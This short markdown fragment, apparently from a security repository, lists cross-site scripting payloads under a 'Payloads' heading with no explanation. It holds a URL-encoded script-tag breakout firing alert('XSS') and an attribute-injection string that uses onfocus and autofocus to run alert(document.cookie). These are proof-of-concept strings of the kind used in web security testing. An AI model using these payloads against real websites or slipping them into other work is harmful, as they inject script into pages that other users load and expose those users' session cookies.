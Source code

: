 ## Payloads
```
d1bvs%3c%2fscript%3e%3cscript%3ealert(`XSS`)%3c%2fscript%3ec579g

"onfocus="alert(document.cookie)"autofocus="
```
